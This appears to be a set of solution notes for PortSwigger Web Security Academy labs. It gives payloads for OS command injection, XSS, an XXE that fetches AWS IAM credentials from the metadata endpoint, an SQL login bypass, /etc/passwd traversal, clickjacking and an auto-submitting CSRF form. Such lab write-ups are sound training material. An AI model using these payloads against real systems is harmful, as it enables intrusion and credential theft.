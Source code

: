 ## OS command injection

### **lab-simple**

```sh
| whoami & return
```

in `storeId` payload for the POST request to `/product/stock`.

### **lab-blind-output-redirection**

```sh
$(whoami > /var/www/images/test.txt)
```

## Cross-site scripting

### **contexts/lab-javascript-string-single-quote-backslash-escaped**

```html
</script><script>alert(1)</script>
```

### **contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped**

```js
${2*2}
${alert(1)}
```

### **dom-based/lab-innerhtml-sink**

1.

```js
<input type="text" id="fname" onfocus="alert(1)" autofocus>
```

2.

```js
<img src="" onerror="alert(1)">
```

## XML external entity (XXE) injection

### **lab-exploiting-xxe-to-perform-ssrf**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
					<!ENTITY burp SYSTEM "http://2ad67spwbgr9ywvf1rawnourdijd72.burpcollaborator.net">
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck>
<productId>
&xxe;
</productId><storeId>
&xxe;
</storeId></stockCheck>
```

[Docs](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
<br>
[Docs](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html)

## WebSockets

### **lab-manipulating-messages-to-exploit-vulnerabilities**

1. Breakpoint at line 56
2. In console type:

```js
object.message = "<img src=x onerror=alert(1)>";
```

## SQL injection

### **lab-login-bypass**

1. Username:

```
admin
```

2. Password:

```
' OR TRUE --
```

## Directory traversal

### **lab-simple**

```
/image?filename=../../../etc/passwd
```

## Clickjacking

### **lab-basic-csrf-protected**

```html
<button
  class="button"
  style="width:120px; height:30px; border-radius: 25px; position: absolute; left: 40px; top: 500px; z-index: -1;"
  type="submit"
>
  click
</button>
<iframe
  style="position: absolute; opacity:0.4;"
  width="600"
  height="550"
  src="[CHALLENGE DOMAIN]/my-account"
></iframe>
```

## CSRF

### **lab-no-defenses**

```html
Hello, world!
<body>
<form id=“form” action=“https://acd91f201fb13c7b80a4006200f200b3.web-security-academy.net/my-account/change-email” method=“POST”>
                            <label>Email</label>
                            <input required=“” type=“email” name=“email” value=“eisenmann@codih.site”>
                            <button class=“button” type=“submit”> Update email </button>
                        </form>
<script>
window.onload = function(){
window.document.querySelector(‘#form’).submit()
}
</script>
</body>
```

## SSRF

### **lab-basic-ssrf-against-backend-system**

??????????

